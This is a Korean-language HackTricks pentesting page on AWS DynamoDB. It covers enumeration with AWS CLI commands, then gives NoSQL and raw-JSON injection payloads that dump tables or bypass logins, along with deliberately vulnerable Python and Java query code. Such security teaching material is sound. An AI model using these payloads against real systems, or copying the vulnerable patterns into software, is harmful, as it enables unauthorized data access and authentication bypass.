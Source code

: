 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### 기본 정보

Amazon DynamoDB는 AWS에서 **완전 관리형, 서버리스, 키-값 NoSQL 데이터베이스**로 제공되며, 크기에 관계없이 고성능 애플리케이션을 지원하도록 설계되었습니다. 이 서비스는 내재된 보안 조치, 중단 없는 백업, 여러 지역에 걸친 자동 복제, 통합 인메모리 캐싱 및 편리한 데이터 내보내기 유틸리티를 포함한 강력한 기능을 보장합니다.

DynamoDB의 맥락에서 전통적인 데이터베이스를 설정하는 대신 **테이블이 생성됩니다**. 각 테이블은 **테이블의 기본 키**의 필수 구성 요소로 **파티션 키**의 지정을 요구합니다. 이 파티션 키는 본질적으로 **해시 값**으로, 항목 검색 및 다양한 호스트에 걸친 데이터 분배에서 중요한 역할을 합니다. 이 분배는 데이터베이스의 확장성과 가용성을 유지하는 데 필수적입니다. 또한, 데이터 조직을 더욱 세분화하기 위해 **정렬 키**를 포함할 수 있는 옵션이 있습니다.

### 암호화

기본적으로 DynamoDB는 **Amazon DynamoDB에 속하는** KMS 키를 사용하며, 귀하의 계정에 최소한 속하는 AWS 관리 키조차 사용하지 않습니다.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 백업 및 S3로 내보내기

**테이블 백업** 생성을 **예약**하거나 **요청**에 따라 생성할 수 있습니다. 또한, **테이블에 대한 시점 복구(PITR)**를 활성화할 수도 있습니다. 시점 복구는 우발적인 쓰기 또는 삭제 작업으로부터 보호하기 위해 **35일** 동안 DynamoDB 데이터의 지속적인 **백업**을 제공합니다.

**테이블의 데이터를 S3로 내보내는** 것도 가능하지만, 테이블에 **PITR이 활성화되어 있어야** 합니다.

### GUI

[다이나모DB 로컬](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) 등과 같은 로컬 Dynamo 서비스에 대한 GUI가 있으며, 유용할 수 있습니다: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 열거
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 인증되지 않은 접근

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### 권한 상승

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### 포스트 익스플로잇

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### 지속성

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB 주입

### SQL 주입

DynamoDB 데이터에 **SQL 구문**으로 접근할 수 있는 방법이 있으므로, 일반적인 **SQL 주입도 가능합니다**.

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL 주입

DynamoDB에서는 데이터를 검색하기 위해 다양한 **조건**을 사용할 수 있으며, 일반적인 NoSQL 주입처럼 **더 많은 조건을 연결하여** 데이터를 검색할 수 있다면 숨겨진 데이터(또는 전체 테이블을 덤프)를 얻을 수 있습니다.\
여기에서 DynamoDB에서 지원하는 조건을 확인할 수 있습니다: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

**`query`** 또는 **`scan`**을 통해 데이터에 접근할 경우 **다른 조건**이 지원된다는 점에 유의하세요.

> [!NOTE]
> 실제로, **Query** 작업은 작동하기 위해 **기본** 키에서 **조건 "EQ" (같음)**을 지정해야 하므로, **NoSQL 주입에 덜 취약**하게 만들고(또한 작업을 매우 제한적으로 만듭니다).

비교를 **변경**하거나 새로운 비교를 추가할 수 있다면, 더 많은 데이터를 검색할 수 있습니다.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### Raw Json injection

> [!CAUTION]
> **이 취약점은 현재 사용 중단된 dynamodb Scan Filter에 기반합니다!**

**DynamoDB**는 DB 내에서 데이터를 **검색**하기 위해 **Json** 객체를 수락합니다. 검색을 위해 전송된 json 객체에 쓸 수 있다는 것을 발견하면, DB 덤프를 만들 수 있으며, 모든 내용을 가져올 수 있습니다.

예를 들어, 다음과 같은 요청에 주입:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
공격자는 다음과 같은 것을 주입할 수 있습니다:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000을 검색하는 "EQ" 조건을 수정한 다음, 0보다 큰 모든 Id 문자열을 찾는 것입니다. 이는 모두 포함됩니다.

또 다른 **로그인을 사용하는 취약한 예**는 다음과 같습니다:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
이것은 다음과 같은 취약점이 있을 수 있습니다:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

일부 SDK는 수행할 필터링을 나타내는 문자열을 사용할 수 있도록 허용합니다:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
DynamoDB에서 **필터 표현식**에서 **값**을 **대체**하기 위해 항목을 스캔할 때, 토큰은 **`:`** 문자로 **시작해야** 합니다. 이러한 토큰은 **런타임에 실제 **속성 값으로 대체**됩니다.

따라서 이전과 같은 로그인을 우회할 수 있는 방법은 다음과 같습니다:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
